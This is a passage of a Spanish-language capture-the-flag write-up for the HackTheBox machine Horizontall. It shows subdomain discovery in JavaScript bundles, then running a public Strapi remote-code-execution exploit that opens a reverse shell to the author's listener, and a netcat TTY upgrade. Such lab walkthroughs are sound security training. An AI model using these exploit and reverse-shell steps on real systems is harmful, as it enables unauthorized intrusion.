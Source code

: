 Y convierto en un formato legible

```null
js-beautify *
beautified app.c68eb462.js
beautified app.c68eb462.js.1
beautified chunk-vendors.0e02b89e.js
beautified chunk-vendors.0e02b89e.js.1
```

Entre todos los datos, se leakea un subdominio

```null
cat * | grep -oP '".*?"' | tr -d '"' | grep http | grep -viE "w3|bootstrap|Agent" | sort -u
http://api-prod.horizontall.htb/reviews
https://horizontall.htb
```

Lo añado al ```/etc/hosts``` y tramito una petición por GET

```null
 curl -s -X GET http://api-prod.horizontall.htb/ | html2text

****** Welcome. ******
```

En las cabeceras de respuesta se puede ver que se está empleando ```Strapy```. Es vulnerable a ejecución remota de comandos. Encuentro un [exploit](https://raw.githubusercontent.com/hadrian3689/strapi_cms_3.0.0-beta.17.7/master/strapi_exp.py) que me permite enviar una reverse shell

```null
python3 strapi_exp.py -t http://api-prod.horizontall.htb/ -e admin@horizontall.htb -p rubbx -lhost 10.10.16.9 -lport 443
```

Gano acceso al sistema en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.105] 56178
bash: cannot set terminal process group (1911): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
strapi@horizontall:~/myapi$ export TERM=xterm
strapi@horizontall:~/myapi$ export SHELL=bash
strapi@horizontall:~/myapi$ stty rows 55 columns 209
```

Puedo ver la primera flag
